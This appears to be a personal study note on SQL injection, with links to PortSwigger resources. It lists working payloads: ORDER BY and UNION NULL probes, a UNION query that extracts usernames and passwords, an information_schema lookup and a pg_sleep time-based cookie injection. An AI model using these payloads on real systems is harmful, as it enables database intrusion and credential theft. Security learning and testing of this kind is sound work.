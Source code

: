 # SQL Injection
Tags: #sqli #database
Related to: [[oracle]]
See also:
Previous:

## Links
Title: Portswigger SQLi cheatsheet
Link: https://portswigger.net/web-security/sql-injection/cheat-sheet
Description: Useful payloads for SQLi testing. Has different modifications per database

Title: Find Table Names for SQL Injection
Link: https://www.sqlinjection.net/table-names/
Description: More info into actually getting table info from schema tables. More in detail than the Portswigger cheatsheet

## Notes
- Most use single-quotes (not double-quotes)
- You don't need to SELECT FROM something (e.g. `SELECT 1`, `SELECT NULL,NULL`)
- Swap out `--` for `#` sometimes. It may cause an error in some cases and not in others


### UNION attack
-  How many columns are being returned from the original query?
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query?
e.g.: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

`' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--`
`' UNION SELECT NULL--  
' UNION SELECT NULL,NULL--  
' UNION SELECT NULL,NULL,NULL--`

### Joining multiple resutls into one column
e.g. in the case where you want two strings from different columns, but only one column in the original query uses the string type.

In the below example, column 1 does not support strings, but column2 does. This gives us `username~password` from the users table..

`' UNION SELECT null,username || '~' || password FROM users--`

### Getting table names
Non-Oracle:
`' UNION SELECT table_name,NULL from information_schema.tables--`

### SQLi into Cookies
Use concantenation to avoid using semi-colons or spaces that can fuck up how the Request is parsed

Comments at the end are still necessary,e.g.
`x'||pg_sleep(10)--`